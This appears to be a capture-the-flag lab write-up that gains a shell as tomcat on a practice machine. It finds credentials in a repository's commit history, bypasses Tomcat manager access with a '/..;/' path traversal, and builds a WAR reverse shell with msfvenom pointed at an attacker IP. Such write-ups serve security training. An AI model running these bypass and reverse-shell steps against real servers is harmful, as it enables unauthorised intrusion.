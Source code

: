 #  Getting Initial shell as tomcat
## Made account on gitbucket on http://10.10.10.250:8080/
![[Pasted image 20210928100501.png]]
## Logging in gitbucket as newly created user 'clarkey'
![[Pasted image 20210928100649.png]]
## http://10.10.10.250/manager/html giving 403 forbidden
http://10.10.10.250/manager/html giving 403 forbidden. We need to bypass 403 forbidden to access http://10.10.10.250/manager/html.
![[Pasted image 20210928100947.png]]
## http://10.10.10.250/manager/status is asking for password 
http://10.10.10.250/manager/status is asking for password which is found in tomcat-users.xml
![[Pasted image 20210928101336.png]]
## FInding  password in commit history of tomcat-users.xml
Found password in commit history of tomcat-users.xml.
![[Pasted image 20210928101714.png]]
## Using above password to access http://10.10.10.250/manager/status
![[Pasted image 20210928101940.png]]
## [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)  arises when both nginx and tomcat are used 
[exploit] arisis (https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) when both nginx and tomcat are used as it is evident from issue in root/seal_market repository.
![[Pasted image 20210928102322.png]]
## Accessing http://10.10.10.250/manager/html using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)
http://10.10.10.250/manager/html can be accessed using [exploit](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/). First we can access known url that works like http://10.10.10.250/manager/status then use directory traversal on this url to bypass 403 forbidden like http://10.10.10.250/manager/status/..;/html (`/..;/` is used to traverse tomcat resources/directories which includes `;`, not `/../` ) like below screenshot.
![[Pasted image 20210928103529.png]]
## using msfvenom to create `war` reverse shell
Using command `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.98 LPORT=1234 -f war -o sh.war` to get war reverse shell.
![[Pasted image 20210928103728.png]]
## uploading war file `sh.war` using burp suite repeater
![[Pasted image 20210928104229.png]]
![[Pasted image 20210928104539.png]]


